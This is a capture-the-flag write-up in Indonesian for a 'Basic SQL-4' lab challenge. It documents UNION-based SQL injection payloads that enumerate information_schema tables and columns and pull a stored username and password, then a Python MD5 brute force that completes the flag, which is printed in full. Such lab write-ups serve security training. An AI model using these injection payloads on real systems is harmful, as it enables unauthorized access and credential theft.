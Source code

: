 <h1><b>Basic SQL-4</h1></b>
<pre>
Login form (username & password)
</pre>
</b><h3>Solution</h3></b>
<p>Pertama lakukan injection sederhana <b>'or''='</b> untuk username dan password, maka muncul pesan</p>
<pre align='center'>
<b>Username for not_admin incorrect</b>
</pre>
<p align='justify'>Didapatkan username yaitu not_admin, dan setelah dilakukan berbagai metode injection saya tidak dapat mebypass login form tersebut walaupun tidak terdapat filter pada form username. Sepertinya pemeriksaan username dan password secara terpisah pada program dan pada form password terdapat filter string yang impossible</p>


<p>jadi kita hanya dapat melakukan injection pada form username, selanjutnya kita akan melakukan serangan union injection pada form username</p>

<p align='justify'>- Lakukan injection <b>1' union select 1,2 -- -</b> pada form dan lakukan dengan menambahkan list nilai hingga muncul pesan error. Dan kita mendapatkan error pada <b>1' union select 1,2,3 -- -</b>, yang artinya hanya terdapat 2 column, dan injection yang kita gunakan yaitu <b>1' union select 1,2 -- -</b> memunculkan pesan</p>
<pre align='center'>
<b>Username for 1 incorrect</b>
</pre>
<p align='justify'>- Dan mencoba injection nama table dengan sintax <b>1' union select database(),2#</b>, maka diperoleh nama table yaitu CTF</p>
<pre align='center'>
<b>Password for CTF incorrect</b>
</pre>
<p align='justify'>- Selanjutnya, injection untuk mendapatkan nama table pada database CTF
<b>1' union select (select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA='CTF'),2#</b>, pada injection kita mencari nama table name menurut metadata dari information_schema SQL untuk mendapatkan seluruh table CTF, dan mendapatkan beberapa table yang salah satunya table untuk challenge ini(SQL_Challenge5), dan berikut eksekusinya pada mysql</p>

```mysql
MariaDB [CTF]> select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA='CTF';
+------------------------------------------------------------------------------------------------------------------+
| group_concat(TABLE_NAME)                                                                                         |
+------------------------------------------------------------------------------------------------------------------+
| SQL_Challenge6,testing,SQL_Challenge3,SQL_Challenge4,SQL_Challenge1,SQL_Challenge7,SQL_Challenge2,SQL_Challenge5 |
+------------------------------------------------------------------------------------------------------------------+
1 row in set (0.000 sec)
```

<pre align='center'>
<b>Password for SQL_Challenge6,testing,SQL_Challenge3,SQL_Challenge4,SQL_Challenge1,SQL_Challenge7,SQL_Challenge2,SQL_Challenge5 incorrect</b>
</pre>
<p alugn='justify'>- Lalu eksekusi injection <b>1' union select (select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='SQL_Challenge5'),2#</b> untuk mendapatkan seluruh nama column dari table SQL_Challenge5, dan berikut eksekusi pada mysql dan pesan pada form</p>

```mysql
MariaDB [CTF]> select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='SQL_Challenge5';
+---------------------------+
| group_concat(COLUMN_NAME) |
+---------------------------+
| username,password         |
+---------------------------+
1 row in set (0.001 sec)

```

<pre align='center'>
<b>Password for username,password incorrect</b>
</pre>
<p align='justify'>- Selanjutnya, jika kita sudah mengetahui nama table salah satunya table <b>SQL_Challenge5</b>, dan ke-2 nama column pada tablenya yaitu <b>username</b> dan <b>password</b>, dan lakukan injection dengan perintah</p> 
<p><b>1' union select (select username from SQL_Challenge5 limit 0,1),2#</b> --> untuk memperoleh username, dan berikut eksekusinya pada mysql</p>

```mysql
MariaDB [CTF]> select username from SQL_Challenge5 limit 0,1;
+-----------+
| username  |
+-----------+
| not_admin |
+-----------+
1 row in set (0.000 sec)

MariaDB [CTF]> 
```
<p><b>1' union select (select password from SQL_Challenge5 limit 0,1),2#</b> --> untuk memperoleh password, dan berikut eksekusinya pada mysql</p>

```mysql
MariaDB [CTF]> select password from SQL_Challenge5 limit 0,1;
+----------+
| password |
+----------+
| admin321 |
+----------+
1 row in set (0.000 sec)

MariaDB [CTF]> 
```
<p>Dan mendapatkan username=<b>not_admin</b>, password=<b>admin321</b>, lalu login dan mendapatkan flag yang tidak complete dengan pesan</p>
<pre align='center'>
<b>Flag is VenomCTF{Hybr1t_5QL_4nd_Brut3_a*d*m*i*n}
Note : Flag is not complete
* is numbers 1-9 and hash 35dab6fb8233a807e8662a9055b3af85</b>
</pre>
<p align='justify'>Jadi tantangan selanjutnya diminta untuk melakukan bruteforce dari 4 bytes flag yang hilang dengan ketentuan "*" merupakan integer 0-9 dan MD5hash 35dab6fb8233a807e8662a9055b3af85</p> 

```python
from Crypto.Hash import MD5
from string import digits
import itertools

number = itertools.product(digits,repeat=4)
for i in number:
    flag = 'VenomCTF{Hybr1t_5QL_4nd_Brut3_a'+i[0]+'d'+i[1]+'m'+i[2]+'i'+i[3]+'n}'
    md5 = MD5.new(flag.encode('utf8')).hexdigest()
    if md5 == "35dab6fb8233a807e8662a9055b3af85":
        print(flag) #VenomCTF{Hybr1t_5QL_4nd_Brut3_a1d3m3i7n}
```


</b><h3>Flag</h3></b>
<pre>
VenomCTF{Hybr1t_5QL_4nd_Brut3_a1d3m3i7n}
</pre>

